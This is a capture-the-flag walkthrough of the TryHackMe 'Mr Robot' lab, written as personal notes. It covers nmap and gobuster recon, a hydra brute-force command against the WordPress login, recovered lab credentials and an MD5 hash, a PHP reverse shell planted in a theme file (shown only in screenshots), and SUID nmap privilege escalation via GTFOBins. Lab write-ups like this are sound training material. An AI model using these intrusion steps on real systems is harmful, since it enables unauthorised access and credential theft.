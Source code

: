Mr Robot CTF
===
###### tags: `THM` `Medium`
###### Link: https://tryhackme.com/room/mrrobot

# Recon

## Nmap
```bash
$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $ip
```
```
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

### OS
TTL --> Linux

### Detect services
```bash
$ nmap -sCV -p 80,443 $ip
```
```
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

### Well-known vulnerabilities
```bash
$ nmap -Pn -sV -v --script vuln -p 80,443 $ip
```
```
80/tcp  open  http     Apache httpd
| http-enum:
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| http-enum:
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

```

## Dirsearch | Gobuster

Dirsearch is going to slow, lets try with gobuster
```bash
$ gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It's slow too but we have some results in a few minutes:

![701f7963111334ba6a720c55da66b81a.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/701f7963111334ba6a720c55da66b81a.png)

Interesting paths:
```
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/license              (Status: 200) [Size: 309]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
```

# Explotation

![7106b69f28f8332d7ee87466f7272a03.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/7106b69f28f8332d7ee87466f7272a03.png)

There is a path to a dicctionary hidden in the robots.txt

## Web Autentication
Let's use it to force the wp-login:
```
hydra -l fsocity.dic -p test -v $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.91.194%2Fwp-admin%2F&testcookie=1:Invalid username'
```

Found one user --> **Elliot**

It takes too much time to finish, so asume the user that we need is it.

Looking at the other interesting paths we have:
Nothing in /readme

![472dae3399f636a1c7c580ff536d4dbb.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/472dae3399f636a1c7c580ff536d4dbb.png)

But there is something in the /license path:

![0d7c805c485083b98f3e5dfb6d6293a3.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/0d7c805c485083b98f3e5dfb6d6293a3.png)

ZWxsaW90OkVSMjgtMDY1Mgo=

elliot:ER28-0652

This user:password works in the /wp-login.php

![8125761235566f76a4815d4dd1c7e3ef.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/8125761235566f76a4815d4dd1c7e3ef.png)

## Spawn a shell

We are admins, so we need to modify some page that we can access and put a php reverse shell:

![5679f8a5fdd16e8de45997ba1f557b98.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/5679f8a5fdd16e8de45997ba1f557b98.png)

![19d398a7345e850336470290947cbd21.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/19d398a7345e850336470290947cbd21.png)

http://10.10.58.91/wp-content/themes/twentyseventeen/404.php

![b2f03ea0b49798c4e3341e5f5fec786d.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/b2f03ea0b49798c4e3341e5f5fec786d.png)

Put the reverse shell:

![9bbfbf3a57b3f2e12b3476f93e43c1f3.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/9bbfbf3a57b3f2e12b3476f93e43c1f3.png)

And it's done:

![cafc991c7ec529c40363cb0b3dae541d.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/cafc991c7ec529c40363cb0b3dae541d.png)

# Post-explotation

### SUID
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
```
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
-rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
```

https://gtfobins.github.io/gtfobins/nmap/

![73b8a10ae6061b911a0e49c74653dcf2.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/73b8a10ae6061b911a0e49c74653dcf2.png)

**I think I forgot one step... I obtain two flags in a row**

## User flag
Let's see how they want I reach the user flag:

The flag is under robot user home:

![ab2931532dcafa185e320e921c2858ae.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/ab2931532dcafa185e320e921c2858ae.png)

I don't have permissions to read it, but there is other file that I can read:

![e8e56e9cbeae53f02c86e5d3cfb52cfe.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/e8e56e9cbeae53f02c86e5d3cfb52cfe.png)

robot:c3fcd3d76192e4007dfb496cca67e13b

That seems an md5 hash, and it is:

![87d310c27049882dd3a2582ebb3d5437.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/87d310c27049882dd3a2582ebb3d5437.png)

Lets use the credentials to login with the user robot and read the user flag witouth root:

![6f74b03ff96c3ee3b47cc2ba314719b8.png](https://raw.githubusercontent.com/mor88888888/writeups/main/mrrobot/_resources/6f74b03ff96c3ee3b47cc2ba314719b8.png)

Done!
